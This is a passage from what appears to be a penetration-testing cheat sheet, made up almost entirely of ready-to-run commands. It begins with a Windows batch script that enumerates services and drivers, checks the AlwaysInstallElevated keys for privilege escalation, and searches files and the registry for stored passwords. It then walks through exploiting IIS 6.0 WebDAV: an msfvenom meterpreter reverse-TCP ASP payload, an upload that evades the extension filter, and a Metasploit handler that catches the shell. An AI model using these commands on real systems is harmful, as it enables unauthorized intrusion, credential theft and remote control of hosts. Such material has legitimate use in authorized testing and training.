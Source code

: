          timeout 1
         tasklist /SVC >> report.txt
         timeout 1
         net start >> report.txt
         timeout 1
         DRIVERQUERY >> report.txt
         timeout 1
         reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated >> report.txt
         timeout 1
         reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer\AlwaysInstallElevated >> report.txt
         timeout 1
         dir /s *pass* == *cred* == *vnc* == *.config* >> report.txt
         timeout 1
         findstr /si password *.xml *.ini *.txt >> report.txt
         timeout 1
         reg query HKLM /f password /t REG_SZ /s >> report.txt
         timeout 1
         reg query HKCU /f password /t REG_SZ /s >> report.txt 
         timeout 1
         dir "C:\"
         timeout 1
         dir "C:\Program Files\" >> report.txt
         timeout 1
         dir "C:\Program Files (x86)\"
         timeout 1
         dir "C:\Users\"
         timeout 1
         dir "C:\Users\Public\"
         timeout 1
         echo REPORT COMPLETE!

*   Windows Server 2003 and IIS 6.0 WEBDAV Exploiting [http://www.r00tsec.com/2011/09/exploiting-microsoft-iis-version-60.html](http://web.archive.org/web/20171113221652/http://www.r00tsec.com/2011/09/exploiting-microsoft-iis-version-60.html)

         msfvenom -p windows/meterpreter/reverse_tcp LHOST=1.2.3.4 LPORT=443 -f asp > aspshell.txt

         cadavar http://$ip
         dav:/> put aspshell.txt
         Uploading aspshell.txt to `/aspshell.txt':
         Progress: [=============================>] 100.0% of 38468 bytes succeeded.
         dav:/> copy aspshell.txt aspshell3.asp;.txt
         Copying `/aspshell3.txt' to `/aspshell3.asp%3b.txt':  succeeded.
         dav:/> exit

         msf > use exploit/multi/handler
         msf exploit(handler) > set payload windows/meterpreter/reverse_tcp
         msf exploit(handler) > set LHOST 1.2.3.4
         msf exploit(handler) > set LPORT 80
         msf exploit(handler) > set ExitOnSession false
         msf exploit(handler) > exploit -j

         curl http://$ip/aspshell3.asp;.txt
